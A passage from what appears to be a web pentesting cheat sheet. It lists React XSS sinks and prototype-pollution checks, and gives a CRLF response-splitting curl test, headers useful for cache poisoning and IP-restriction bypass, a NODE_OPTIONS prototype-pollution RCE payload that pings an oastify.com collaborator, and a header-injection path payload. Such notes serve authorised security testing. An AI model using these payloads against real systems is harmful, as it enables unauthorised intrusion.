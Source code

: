 ### React Pentesting

- Look for user-supplied input passed to `href`, `src`, or `srcSet` attributes.
- Look for usage of `dangerouslySetInnerHTML` and user-supplied input.
- Look for direct DOM access via `findDOMNode` in conjunction with `.innerHTML` being set by user-supplied input.
- Look for prototype pollution opportunities which occur when user-supplied input that is parsed as an object is merged into another object.
  - Once a prototype pollution vector has been identified, look for references to undefined variables that may be referenced within the source code.

### Testing for HTTP Response Splitting

- Submit the following cURL request and see if the response contains the injected header.
```shell
curl -X GET "http://example.com/vulnerable-page" -H "Cookie: somecookie%0D%0AInjected-Header: Malicious-Content"
```

### Useful Headers for Web Cache Poisoning, Bypassing IP Restrictions, etc
|Header Name|Purpose|Usage|
|---|---|---|
|X-Forwarded-Server|Identify the receiving server in a chain of proxies|Useful for diagnostic and logging purposes, tracking which server handles the request.|
|X-Forwarded-Host|Preserve the original client's "Host" header|Essential for maintaining the intended host in virtual hosting and routing requests.|
|X-Forwarded-Scheme|Indicate the original scheme (HTTP or HTTPS) of the request|Ensures correct URL generation and handling of secure connections.|
|X-Host|Non-standard header; specific use case dependent|Usage would depend on the application or configuration employing this header.|
|X-Forwarded-IP|Specify the original client's IP address|Preserves the client's IP address for security, logging, and other purposes.|

### Node CLI Options RCE for Prototype Pollution
> https://portswigger.net/research/exploiting-prototype-pollution-in-node-without-the-filesystem
```shell
node --import='data:application/javascript,console.log(1337)'
```

```json
"__proto__":{
   "NODE_OPTIONS": "--import=\"data:text/javascript,import dns from 'node:dns';dns.lookup('YOUR_COLLABORATOR_ID.oastify.com', x=>1)\""
}
```

### HTTP Header Injection via URL Path
```
/%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0a
```

